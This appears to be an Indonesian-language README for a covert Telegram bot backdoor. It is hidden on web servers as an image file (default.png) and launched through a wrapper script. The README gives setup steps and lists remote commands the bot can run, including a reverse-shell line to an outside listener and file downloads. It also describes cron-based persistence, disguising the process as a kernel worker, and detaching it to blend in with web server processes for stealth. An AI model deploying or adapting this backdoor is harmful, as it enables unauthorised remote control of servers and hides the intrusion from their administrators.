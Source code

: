 # hidden bot Wrapper Script v1.0


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>
📌 Konsep Wrapper Script dalam Eksekusi Bot Telegram adalah, <br> skrip perantara yang digunakan untuk menjalankan program atau skrip lain secara tidak langsung. <br> Ini berguna untuk menyembunyikan, menyederhanakan, atau mengontrol eksekusi skrip utama.<br>

Dalam kasus ini, kita memiliki: <br>

Skrip utama (default.png) yang sebenarnya adalah bot Telegram, <br> tetapi namanya disamarkan agar terlihat seperti file gambar. <br>
Wrapper script (dockerbot), yang bertindak sebagai perantara untuk menjalankan default.png.

📂 Struktur File
```
/var/www/html/default.png  --> Skrip utama bot (disamarkan sebagai file gambar)
/tmp/img/dockerbot         --> Wrapper script untuk menjalankan default.png
```
📜 Isi Wrapper Script (dockerbot)
```
#!/bin/bash
/var/www/html/default.png
```

📌 Penjelasan:
```
#!/bin/bash → Menentukan bahwa skrip ini dijalankan menggunakan Bash.
/var/www/html/default.png → Memanggil skrip utama bot yang disamarkan sebagai file gambar.
Jadi, setiap kali dockerbot dijalankan, sebenarnya yang terjadi adalah default.png (yang merupakan bot Telegram) akan dieksekusi.
```
<br>
<br>
<br>
<br>


📌cara eksekusi
<br>
1️⃣ Buat file /tmp/img/dockerbot

Isi dengan:

```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi
```
chmod 777 /tmp/img/dockerbot
```

3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
```



apasaja yg bisa di jalankan di bot telegram

```
perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
<br>
<br>
<br>
<br>
<br>

📌NOTE bot ini masih bisa di modifikasi dengan metode :
```
Ubah Nama Proses di Runtime (Fake Process Name)
exec -a "[kworker/u8:2]" /var/www/html/default.png
💡 Efek: Saat dicek dengan ps aux atau pgrep -af, proses akan terlihat sebagai [kworker/u8:2] (nama biasa untuk kernel worker).

📌Jalankan Proses dengan PPID Palsu
Agar tidak terlihat mencurigakan, <br> bisa jalankan bot di bawah proses parent yang sudah ada, misalnya apache2 atau nginx:
nohup setsid /var/www/html/default.png > /dev/null 2>&1 &
💡 Efek: Bot terlihat sebagai bagian dari apache/nginx saat dicek dengan pstree atau ps.
Dengan kombinasi metode ini, bot jadi lebih stealth tanpa akses root. 🔥
```

